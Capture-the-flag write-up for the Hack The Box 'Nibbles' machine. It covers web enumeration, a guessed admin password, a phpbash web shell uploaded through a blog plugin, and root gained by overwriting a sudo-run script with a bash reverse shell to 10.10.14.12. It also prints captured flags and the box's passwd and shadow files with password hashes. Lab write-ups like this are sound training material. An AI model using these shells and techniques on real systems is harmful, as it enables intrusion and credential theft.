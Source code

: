 http://10.10.10.75/nibbleblog/


![[nibbleblog.png]]

```txt
http://10.10.10.75/nibbleblog/index.php?controller=blog&action=view&category=music
```

*feed.php* in the page footer.

```html
<!-- FOOTER --> <footer id="blog-foot"> <span class="blog-atom"><a href="[/nibbleblog/feed.php](view-source:http://10.10.10.75/nibbleblog/feed.php)">Atom</a></span> <span class="blog-footer"> · <a class="top" href="[#](view-source:http://10.10.10.75/nibbleblog/index.php?controller=blog&action=view&category=uncategorised#)">Top</a></span> <span class="blog-footer"> · Powered by Nibbleblog</span> <script> $(".top").click(function(){
			$("html, body").animate({ scrollTop: 0 }, 600);
			return false;
		}); </script> </footer>
```


![[admin_dir.png]]

```bash
ffuf -w /usr/share/wordlists/ffuf/common.txt -u ${ipurl}/index.php?controller=FUZZ&action=view&category=uncategorised

ffuf -w /usr/share/wordlists/ffuf/common.txt -u ${ipurl}/index.php?controller=blog&action=FUZZ&category=uncategorised
 
ffuf -w /usr/share/wordlists/ffuf/common.txt -u ${ipurl}/index.php?controller=blog&action=view&category=FUZZ
  
ffuf -w /usr/share/wordlists/ffuf/common.txt -u ${ipurl}/index.php?controller=FUZZ&action=FUZZ&category=FUZZ


```

```
dirb http://10.10.10.75:80/nibbleblog/ -o /HTB-boxes/nibbles/enum/web/dirb_ip2.md
dirb http://10.10.10.75:80/nibbleblog/ -X .txt,.sh,.php,.pl,.py,.xml,.bak -o /HTB-boxes/nibbles/enum/web/dirb_ip_ext2.md

dirb http://nibble.htb:80/nibbleblog/ -o /HTB-boxes/nibbles/enum/web/dirb_host2.md
dirb http://nibble.htb:80/nibbleblog/ -X .txt,.sh,.php,.pl,.py,.xml,.bak -o /HTB-boxes/nibbles/enum/web/dirb_host_ext2.md
```

using the *simpler* theme
```html
<link rel="canonical" href="http://10.10.10.134/nibbleblog/">
<link rel="alternate" type="application/atom+xml" title="ATOM Feed" href="/nibbleblog/feed.php">
<link rel="stylesheet" type="text/css" href="/nibbleblog/themes/simpler/css/normalize.css">
<link rel="stylesheet" type="text/css" href="/nibbleblog/themes/simpler/css/main.css">
<link rel="stylesheet" type="text/css" href="/nibbleblog/themes/simpler/css/post.css">
<link rel="stylesheet" type="text/css" href="/nibbleblog/themes/simpler/css/page.css">
<link rel="stylesheet" type="text/css" href="/nibbleblog/themes/simpler/css/plugins.css">
<link rel="stylesheet" type="text/css" href="/nibbleblog/themes/simpler/css/rainbow.css">
```

### Admin Panel & Login

```bash
dirb http://10.10.10.75:80/nibbleblog/ -o /HTB-boxes/nibbles/enum/web/dirb_ip2.md
```

```txt
+ http://10.10.10.75:80/nibbleblog/admin.php (CODE:200|SIZE:1401)
```

![[admin_login_panel.png]]

Guessing basic passwords, we find that we are able to login with the following credentials:

```txt
admin::nibbles
```

Error:

```txt
Nibbleblog security error - Blacklist protection
```

Reset the box

![[admin_panel.png]]

### Initial Access

We are able to upload files throug the *My Image Plugin*

![[upload_phpbash.png]]

Reference: *https://github.com/Arrexel/phpbash/blob/master/phpbash.php*

We recive the following error because our file is not an image:

![[err1.png]]

However, we can still acces phpbash by visiting the following url:

```txt
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

![[phpbashinfo.png]]


![[local.txt.png]]

```txt
b55d82a44d5b70d69110e0f26d10623c
```

### Privesc

![[check-priv.png]]

```bash
cd /home/nibbler/
unzip personal.zip
cd personal/stuff/
```

Now lets change the script to only include our reverse shell payload.

```bash
echo "#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.12/4321 0>&1" > /home/nibbler/personal/stuff/monitor.sh
```

Execute our reverse shell with the following command:

```bash
chmod +x monitor.sh
sudo ./monitor.sh
```

![[got_root_shell.png]]

![[root.txt.png]]

```txt
cd6ce707e98594ae6f9afe0f4e65d773
```

### House Cleaning

```bash
rm -rf /home/nibbler/personal/
rm -rf /var/www/html/nibbleblog/content/private/plugins/my_image/image.php
```


### /etc/passwd

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
nibbler:x:1001:1001::/home/nibbler:
```

```txt
root:$6$DewMP6p.$vV1WdlCbgZJkOM98Qw7Dur.A.4YOq910laHkQZu/uMuomOjKntzg5GSsl8pYT0qtW9I.YMkr3HBC0Sw/s3TKq0:17511:0:99999:7:::
daemon:*:17001:0:99999:7:::
bin:*:17001:0:99999:7:::
sys:*:17001:0:99999:7:::
sync:*:17001:0:99999:7:::
games:*:17001:0:99999:7:::
man:*:17001:0:99999:7:::
lp:*:17001:0:99999:7:::
mail:*:17001:0:99999:7:::
news:*:17001:0:99999:7:::
uucp:*:17001:0:99999:7:::
proxy:*:17001:0:99999:7:::
www-data:*:17001:0:99999:7:::
backup:*:17001:0:99999:7:::
list:*:17001:0:99999:7:::
irc:*:17001:0:99999:7:::
gnats:*:17001:0:99999:7:::
nobody:*:17001:0:99999:7:::
systemd-timesync:*:17001:0:99999:7:::
systemd-network:*:17001:0:99999:7:::
systemd-resolve:*:17001:0:99999:7:::
systemd-bus-proxy:*:17001:0:99999:7:::
syslog:*:17001:0:99999:7:::
_apt:*:17001:0:99999:7:::
lxd:*:17431:0:99999:7:::
messagebus:*:17431:0:99999:7:::
uuidd:*:17431:0:99999:7:::
dnsmasq:*:17431:0:99999:7:::
sshd:*:17431:0:99999:7:::
mysql:!:17510:0:99999:7:::
nibbler:$6$X3A8Ojo1$ZixRGB1HEQv552mnnJALZ6hOStYqqJuMoUsFipTFJl22OBupNaqGluyidsq4bZ2oBxr2YH/p4.v/ZaMosY4jZ/:17511:0:99999:7:::
```